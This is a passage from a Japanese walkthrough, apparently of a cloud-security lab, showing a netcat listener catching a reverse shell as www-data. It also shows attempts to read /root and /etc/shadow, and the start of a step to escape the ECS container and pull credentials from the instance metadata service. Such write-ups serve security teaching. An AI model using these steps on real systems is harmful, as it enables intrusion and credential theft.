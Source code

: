 #### 待ち受け側

　接続を待ち受けるマシン上で「`nc -nlvp 4443`」コマンドを実行します。（4443 は待ち受けのポート番号）   

<div class="md-code" style="width:100%">

```
[root@i-14100000180835 ~]# nc -nlvp 4443
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 52.87.yyy.zzz.
Ncat: Connection from 52.87.yyy.zzz:53874.
Linux 533e4e3fac01 4.14.313-235.533.amzn2.x86_64 #1 SMP Tue Apr 25 15:24:19 UTC 2023 x86_64 GNU/Linux
 12:35:58 up 20 min,  0 users,  load average: 0.00, 0.01, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

</div>


## Step 3. ECS Breakout and Instance Metadata

　「Step 3」では、「Step 2」で取得したシェルを使って主に以下の２つのことを実施します。  

- コンテナからの脱獄
- メタデータサービス（IMDS：Instance Metadata Service）へのアクセス

### 現ユーザの権限を確認

　シェルを取得することができたので、アクセス可能なリソースを簡単に確認します。  

#### リソースへのアクセスを試行

　「`/root`ディレクトリ」と「`/etc/shadow`ファイル」にアクセスできるか確認します。

<div class="md-code" style="width:100%">

```
$ cd /root
/bin/sh: 4: cd: can't cd to /root

$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

</div>

　権限がなくアクセスできませんでした。

　次は、メタデータサービス（`http://169.254.169.254/latest/meta-data/`）にアクセスしてみて、クレデンシャルを取得できるかを試してみます。  
